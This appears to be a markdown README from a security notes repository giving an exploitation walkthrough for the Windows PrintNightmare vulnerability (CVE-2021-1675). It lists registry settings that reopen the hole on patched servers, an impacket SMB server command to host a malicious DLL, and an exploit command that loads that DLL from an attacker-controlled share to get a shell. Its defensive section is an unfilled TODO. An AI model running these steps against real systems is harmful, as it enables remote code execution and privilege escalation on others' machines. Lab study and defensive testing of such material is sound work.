 # PrintNightmare (CVE-2021-1675)
## Summary

PrintNightmare is a critical vulnerability that allows an attacker to obtain remote code execution and/or privilege escalation against any target Windows machine using the Spooler service that is enabled by default. While Microsoft has issued a patch for this vulnerability, if a few registry keys are present, then the target will still be vulnerable despite having the patch.

## Prerequisites

Either a Windows server that doesn't have the patch released on July 1st, 2021, or must have some special registry keys added. Further, some form of SMB server and a custom compiled DLL is required to exploit this vulnerability. This exploit requires credentials to operate, even a low-privilege user may work.

## Setup

Once the server is installed, and *if* the server contains the patch, then the following registry keys need to be installed:

```registry
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\RestrictDriverInstallationToAdministrators REG_DWORD 0x0
HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall REG_DWORD 0x1
```

![registry entries](./images/Pasted%20image%2020230606093107.png)

## Execution

### Method 1 - Cube0x0's Repo

Clone [Cube0x0's repo](https://github.com/cube0x0/CVE-2021-1675) (https://github.com/cube0x0/CVE-2021-1675), as well as [this DLL repo](https://github.com/NukingDragons/DllHijacks) (https://github.com/NukingDragons/DllHijacks). Pick the DLL you want from the DLL repo and compile it on Windows, or using MinGW following the instructions in the README.

Once you have the DLL of choice compiled, and whatever listener/method of receiving or connecting to the shell configured, use impackets SMB server to host the file, and run the following commands:

```bash
impacket-smbserver -smb2support share /path/to/folder/with/DLL
```

Finally, exploit the target:

```bash
python3 CVE-2021-1675.py domain.com/username:'password'@target-ip '\\your-ip\share\your.dll'
```

![successful connection](./images/Pasted%20image%2020230606100148.png)

#### Indicators of Compromise

TODO
